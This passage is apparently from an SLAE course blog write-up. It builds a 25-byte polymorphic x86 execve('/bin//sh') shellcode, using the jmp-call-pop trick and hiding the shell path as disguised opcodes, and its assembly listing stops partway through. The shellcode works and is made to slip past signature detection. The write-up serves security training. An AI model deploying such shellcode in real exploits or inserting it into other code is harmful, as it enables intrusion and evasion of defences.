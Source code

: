 As we did it for the kill(), we can split the shellcode into pieces so that it
would be easier to write variations.
For SLAE engagement rules, we must create shellcodes not longer than 45 bytes.

First step, let's init registers.

{%highlight asm%}
	push byte 0xb
	pop eax
	xor ecx, ecx
	push ecx
	pop edx
{%endhighlight %}

After this, there is the "call" trick:

{%highlight asm%}
...

	jmp short shell

flow:	
	pop ebx
	int 0x80

shell: 	
	call dword flow
...
{%endhighlight%}

And then, after the last call, there is the "/bin//sh" payload encoded as they
were assembly opcodes.

{%highlight asm%}
	das
	bound ebp,[ecx+0x6e]
	das
	das
	jae $+0x6a
{%endhighlight%}

![The encoded payload]({{site.url}}/assets/images/exec_encoded_variant.png)

The execve() shellcode variant is 25 byte long, instead of 30 bytes of the
original shellcode taken from the website.

{%highlight asm%}
; Filename: 	
; Author:	Paolo Perego <paolo@codiceinsicuro.it>  
; Website:  	https://codiceinsicuro.it
; Twitter:   	@thesp0nge
; SLAE-ID:    	1217
; Purpose:	Polymorphic variation for an obfuscated shellcode

global _start			

section .text

_start:
	; INIT Registers
	push byte 0xb
	pop eax
	xor ecx, ecx
	push ecx
	pop edx

	jmp short shell

flow:	
	pop ebx
	int 0x80